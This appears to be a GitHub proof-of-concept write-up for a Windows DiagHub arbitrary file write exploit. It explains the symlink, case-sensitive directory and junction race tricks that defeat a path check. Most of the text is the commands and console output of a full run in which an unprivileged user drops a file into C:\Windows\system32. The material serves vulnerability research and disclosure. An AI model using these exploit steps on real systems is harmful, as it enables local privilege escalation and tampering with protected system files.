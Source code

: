 I managed to improve the exploit a little bit, turning it into a file dropping primitive. The attacker has only partial control over the source content,
so this attack is not really practical in itself. 
As a preparation step, the exploit creates a object directory based symlink, using `James Forshaw`'s CreateSymlink.exe tool, like this:

```
Exeucuting command: CreateSymlink.exe c:\111\workdir\diaghub-file-write-poc\ETW\Report.3902E32D-DD66-4419-8A7C-FF37778EFD7F\lock c:\111\workdir\diaghub-file-write-poc\etw\Report.3902E32D-DD66-4419-8A7C-FF37778EFD7F\lock
Opened Link \RPC Control\lock -> \??\c:\111\workdir\diaghub-file-write-poc\etw\Report.3902E32D-DD66-4419-8A7C-FF37778EFD7F\lock: 00000130
Exeucuting command: CreateSymlink.exe c:\111\workdir\diaghub-file-write-poc\ETW\Report.3902E32D-DD66-4419-8A7C-FF37778EFD7F\metadata.xml c:\Windows\system32\dropped.dll
Opened Link \RPC Control\metadata.xml -> \??\c:\Windows\system32\dropped.dll: 00000130
```

The `etw` (legit), `ETW` (malicios) and `Etw` (dir junction) trick is still needed to make the `ValidateSamePath` method happy. The exploit monitors the report directory,
once it shows up, it flips the `Etw` link to point to `ETW` (where the above links had already been created).
This also means this is a race condition between DiagHub and the exploit code, but the attack is quite reliable.

```
The fully working example:

C:\111\bin>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\111\bin>DiagHubFileWritePoc.exe
Usage: DiagHubFileWrite path-to-a-dir-for-scratch path-to-file-to-(over)write
The target path may be an existing or non-existing file


C:\111\bin>DiagHubFileWritePoc.exe c:\111\workdir c:\Windows\system32\dropped.dll
Case sensitive dir created successfully c:\111\workdir\diaghub-file-write-poc
Exeucuting command: CreateSymlink.exe c:\111\workdir\diaghub-file-write-poc\ETW\Report.3902E32D-DD66-4419-8A7C-FF37778EFD7F\lock c:\111\workdir\diaghub-file-write-poc\etw\Report.3902E32D-DD66-4419-8A7C-FF37778EFD7F\lock
Exeucuting command: CreateSymlink.exe c:\111\workdir\diaghub-file-write-poc\ETW\Report.3902E32D-DD66-4419-8A7C-FF37778EFD7F\metadata.xml c:\Windows\system32\dropped.dll
Preparation succeeded, using report dir Report.3902E32D-DD66-4419-8A7C-FF37778EFD7F
Exeucuting command: VSDiagnostics.exe start 3902E32D-DD66-4419-8A7C-FF37778EFD7F /loadAgent:e485d7a9-c21b-4903-892e-303c10906f6e;DiagnosticsHub.StandardCollector.Runtime.dll /scratchLocation:c:\111\workdir\diaghub-file-write-poc\Etw
Opened Link \RPC Control\lock -> \??\c:\111\workdir\diaghub-file-write-poc\etw\Report.3902E32D-DD66-4419-8A7C-FF37778EFD7F\lock: 00000130
Press ENTER to exit and delete the symlink
Opened Link \RPC Control\metadata.xml -> \??\c:\Windows\system32\dropped.dll: 00000130
Press ENTER to exit and delete the symlink

Microsoft (R) VS Standard Collector

Creating instance of StandardCollector 42cbfaa7-a4a7-47bb-b422-bd10e9d02700 (Windows Native)
```